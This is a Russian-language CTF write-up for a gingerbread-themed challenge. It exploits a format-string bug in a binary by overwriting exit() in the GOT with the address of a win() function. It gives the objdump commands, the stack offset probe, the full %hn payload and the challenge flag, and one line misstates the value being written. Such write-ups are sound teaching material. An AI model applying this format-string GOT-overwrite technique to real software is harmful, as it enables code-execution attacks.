 # Ложа Тульского пряника

## Условие

Ежегодно на нашу пряничную ярмарку приезжает Тайная Пряничная Ложа, они собираются в самом дальнем шатре.

Если хотите туда попасть, то вам нужно знать пароль. И нет, это не пряник и не самовар. Так что удачи вам попытать счастье.

Дам подсказку, в начале поприветствуете фразой 
>The well-known GingerbreadHub site


## Решение

Декомпилируем файл, видим функцию win, в которой присутствует наш необходимый флаг. Необходимо перенаправить поток выполнения программы. Для этого надо будет перезаписать адрес exit() в GOT адресом win() . Здесь есть 4 шага:
* Найдем адрес win()
* Найдем адрес exit() в GOT
* Найдем смещение нашей строки в стеке
* Напишем правильную строку эксплойта

В начале найдем адреса функции exit - 0x0804b2a0 
> objdump -R ClubPryanikaFlag

Теперь найдем адреса функции win - 0x080491a6
> objdump -t ClubPryanikaFlag | grep win

Теперь, что касается позиции нашей строки, это четвертый параметр в стеке:
> AAAA%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.
> AAAA00000200.f7e1e620.080491e3.41414141.78383025.3830252e.30252e78.252e7838.2e783830.78383025.

Итак, наш эксплойт будет выглядеть так:
> \xa2\xb2\x04\x08\xa0\xb2\x04\x08%`val1`x%4$hn%`val2`x%5$hn

Нам нужно вычислить значение, исходя из того, что нам нужно написать 0x0804b2a0:
    Младшие байты = 91a6 (37286 в десятичном формате).
    Старшие байты = 0804 (2052 в десятичном формате).
Однако старший байт уступает младшему, поэтому сначала мы напишем старший. Нам просто нужно инвертировать адреса, куда мы хотим писать:
    Старшие байты = 0804 (2052 в десятичном формате). Минус 8 байт для адресов = 2044.
    Младшие байты = 91a6 (37286 в десятичном формате). Минус 2052 байта, которые мы уже написали = 35234.

Вот эксплойт, который нужно вести во второй ввод:
> \xa2\xb2\x04\x08\xa0\xb2\x04\x08%2044x%4$hn%35234x%5$hn

Для более подробного изучения рекомендую почитать статьи на тему "Exploit 101 - Format Strings"

## Flag 
```TulaCTF{Da_Zdravstvuet_Tula_Da_Zdravstvuet_71}```


